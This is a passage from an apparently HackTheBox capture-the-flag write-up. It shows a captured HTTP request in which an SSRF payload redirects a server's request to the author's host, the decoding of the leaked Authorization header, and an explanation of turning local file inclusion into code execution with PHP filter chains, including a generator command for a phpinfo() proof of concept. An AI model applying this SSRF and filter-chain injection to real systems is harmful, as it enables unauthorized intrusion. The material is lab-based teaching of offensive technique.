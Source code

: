```

POST /index.php HTTP/1.1
Host: 10.10.14.6
Authorization: Basic YXBpLmhheHRhYmxlcy5odGI6
Accept: */*
Content-Type:application/json
Content-Length: 64

{"data":"0xdf was here","action":"md5","uri_path":"@10.10.14.6"}

```

Rather than sending to `api.haxtables.htb`, it’s hit my server. The `Authorization` header has base64 data that decodes to that `userinfo`:

```

oxdf@hacky$ echo "YXBpLmhheHRhYmxlcy5odGI6" | base64 -d
api.haxtables.htb:

```

### LFI -> RCE

#### Background

It used to be that to take an local file include (LFI) to remote code execution (RCE), you needed to get malicious PHP code into a file on the server somewhere, by abusing an unsafe file upload or something like log poisoning.

Then came PHP filter injection, explained in detail in [this Synacktiv post](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html), perhaps first published in [this CTF writeup](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d). I went into this technique in the [Beyond Root for UpDown](/2023/01/21/htb-updown.html#beyond-root---lfi2rce-via-php-filters) and made [this video](https://www.youtube.com/watch?v=TnLELBtmZ24) showing it in detail:

The summary is that by stacking many PHP filters encoding and re-encoding a temporary empty file over and over, eventually I can actually add legit PHP that gets included and executed.

#### POC

[This repo](https://github.com/synacktiv/php_filter_chain_generator) has a Python script to generate the filters necessary to inject PHP code into a page. To test, I’ll try to generate a PHP filters to run `phpinfo()`:

```

oxdf@hacky$ python php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)
```